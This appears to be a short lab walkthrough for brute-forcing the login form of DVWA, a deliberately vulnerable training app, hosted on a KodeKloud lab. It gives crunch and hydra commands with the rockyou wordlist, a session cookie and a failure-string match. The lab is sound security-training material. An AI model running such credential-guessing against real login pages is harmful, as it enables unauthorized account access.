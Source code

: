 https://techbeatz.co.uk/cyber-security/dvwa-task-1-brute-force-using-hydra-developer-tools/

```
git clone https://github.com/jon94/dvwa-dd.git
```

Replace DD API KEY

```
docker compose up -d --force-recreate --no-deps --build
```

Login to wherever it is hosted in kodekloud to obtain the URL as well as the PHP SessID. These are needed for the bruteforce.

cd to /Tools/wordlists/

Generate username using crunch
- Generate between 5 - 8 letters from letters been a-n and output in usernames.txt
```
crunch 5 8 abcdefghijklmn -o usernames.txt
```
For password, we will use rockyou.txt as list

```
hydra -f -S -l admin -P rockyou.txt 4280-port-708f1b5f85a94714.labs.kodekloud.com http-form-get "/vulnerabilities/brute:username=^USER^&password=^PASS^&Login=submit:F=Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=ebd3c9ed3e7f420323aaa061b3431fb4"
```